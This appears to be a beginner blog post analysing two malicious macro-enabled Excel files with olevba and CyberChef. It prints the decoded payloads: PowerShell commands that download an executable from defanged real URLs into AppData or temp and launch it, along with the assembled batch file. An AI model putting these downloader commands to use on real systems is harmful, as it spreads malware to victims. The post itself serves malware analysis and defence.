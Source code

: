 ```yaml
---
layout: post
title: "Analyzing Macro enabled Office Documents"
image: "/images/msofficemacros/cover.png"
description: "Learn how to analyze MS Office Macro enabled Documents, a step-by-step guide to identifying and reversing malicious macros, and how to use olevba and cyberchef to decode and analyze the macro code. Analyzing Macro enabled Office Documents, a comprehensive guide to malware analysis, reverse engineering, and forensic investigations."
keywords: "Malware-Analysis, Reverse-Engineering, Macro enabled Office Documents, Office Document Analysis, Cyber 5W, Malware Analysis, Reverse Engineering, Gafgyt Backdoor Analysis, JavaScript Deobfuscation Techniques, Hard disk structure and analysis"
tags: [Malware-Analysis, Reverse-Engineering, Macro enabled Office Documents, Office Document Analysis, JavaScript Deobfuscation Techniques] 
---
```

Experience Level required: beginner 

# Objectives

In this blog we will Learn how to analyze MS Office Macro enabled Documents.

{% highlight text %}
1st sample:
    8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5
2nd sample:
    a9f8b7b65e972545591683213bb198c1767424423ecc8269833f6e784aa8bc99
{% endhighlight %}

# 1st Sample

Let's see the sample in Virus Total

![](/images/msofficemacros/image2.jpg)

37 of 63 security vendors detected this file as malicious. 

Let's open the file.

![](/images/msofficemacros/image1.jpg)

It uses a social engineering technique to persuade the user to enable the macros that lead to the infection of the user.

Let's see the macro code of the sample, I'll use olevba

{% highlight text %}
olevba "C:\Users\M4lcode\Desktop\xlm sample\8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5.xlsm"
{% endhighlight %}
![](/images/msofficemacros/image3.jpg)

It has many suspicious functions, It also has base64 strings

![](/images/msofficemacros/image7.jpg)

Let's dump the macro code to a file to see it better

{% highlight text %}
olevba -c "C:\Users\M4lcode\Desktop\xlm sample\8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5.xlsm" > dump.vba
{% endhighlight %}
Let's view the dumped file with notepad ++ (you can view it with any text editor software)

![](/images/msofficemacros/image4.jpg)

This function concatenates two strings, then reverses the result string and assigns it to **Prefix3**.

![](/images/msofficemacros/image5.jpg)

I'll use this python script to reverse the string

{% highlight text %}
def reverse_string(input_string):
    return input_string[::-1]

input_string = "cne- 1 niw- exe.llehsrewop\\0.1v\\llehSrewoPswodniW\\23metsyS\\swodniW\:C"
reversed_string = reverse_string(input_string)
print("Original string:", input_string)
print("Reversed string:", reversed_string)
{% endhighlight %}

![](/images/msofficemacros/image6.jpg)

**Prefix3** =
{% highlight text %}
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -win 1 -enc
{% endhighlight %}
Let's go to the next function

The function concatenates 8 base64 encoded strings and assigns it to **Prefix2**.

![](/images/msofficemacros/image8.jpg)

I'll use cyberchef to decode the strings

![](/images/msofficemacros/image9.jpg)

**Prefix2** =
{% highlight text %}
$ProcName = "Ktaqftbffhqhoxzyblssi.exe";
(New-Object System.Net.WebClient).DownloadFile("hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif","$env:APPDATA\$ProcName");
Start-Process ("$env:APPDATA\$ProcName")
{% endhighlight %}

Let's go to the next function

![](/images/msofficemacros/image10.jpg)

It concatenates strings

**Prefix1** =
{% highlight text %}
start /MIN
{% endhighlight %}

Let's go to the last function

![](/images/msofficemacros/image11.jpg)

It concatenates **Prefix1**, **Prefix3** and **Prefix2** and print the result in a .bat file named "Bixkcozkkemqyslgmpvwuri.bat" then it runs the file

The resulted .bat file will be:
{% highlight text %}
start /MIN C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  - win 1  - enc $ProcName = "Ktaqftbffhqhoxzyblssi.exe";
(New - Object System.Net.WebClient).DownloadFile("hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif", "$env:APPDATA\$ProcName");
Start - Process ("$env:APPDATA\$ProcName")
{% endhighlight %}

This script runs powershell script to download file from "hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif" to the current user's AppData directory with name "Ktaqftbffhqhoxzyblssi.exe" and executes it.

# 2nd Sample

32 of 60 security vendors detected this file as malicious.

![](/images/msofficemacros/image12.jpg)

Let's open the sample

![](/images/msofficemacros/image13.jpg)

It also employs a social engineering technique to convince the user to enable macros, which then leads to the user being infected.

Let's see its macro code

{% highlight text %}
olevba C:\Users\M4lcode\Desktop\ee6d2f06ce4476370cb830acb3890dca.xls
{% endhighlight %}

![](/images/msofficemacros/image14.jpg)

It uses **wscript** language and base64 encoding

Let's dump it to file
{% highlight text %}
olevba -c C:\Users\M4lcode\Desktop\ee6d2f06ce4476370cb830acb3890dca.xls > dump.vba
{% endhighlight %}
![](/images/msofficemacros/image15.jpg)

Let's try to decode this strings

![](/images/msofficemacros/image16.jpg)

{% highlight ps1 %}

$fdsfsdf = "fsfdghfddfgh";
(NEw-objEct `N`e`T`.`W`e`B`C`l`i`e`N`T`).DownLoAdfIlE('hxxp[://]suyashcollegeofnursing[.]com/language/Don163/CryptedFile163[.]exe', "$ENv:temp\jfcbvept.exe");
Start "$ENv:temp\jfcbvept.exe";
\$fdsfsdf = "fsfdghfddfgh";

{% endhighlight %}
This powershell script is downloading a file from "hxxp[://]suyashcollegeofnursing[.]com" to **temp** directory with name "jfcbvept.exe" then it starts it

CreateObject("Wscript.Shell") return is assigned to **zKShMevSa**

![](/images/msofficemacros/image17.jpg)

So **zKShMevSa** acts like **Wscript.Shell** and **zKShMevSa**.Run = Wscript.Shell.Run.

It's clear now **Wscript.Shell.Run** executes the powershell script that downloads the malware from "hxxp[://]suyashcollegeofnursing[.]com" to **temp** directory with name "jfcbvept.exe" then it executes it.

This blog is authored by **Mostafa Farghaly(M4lcode)**.
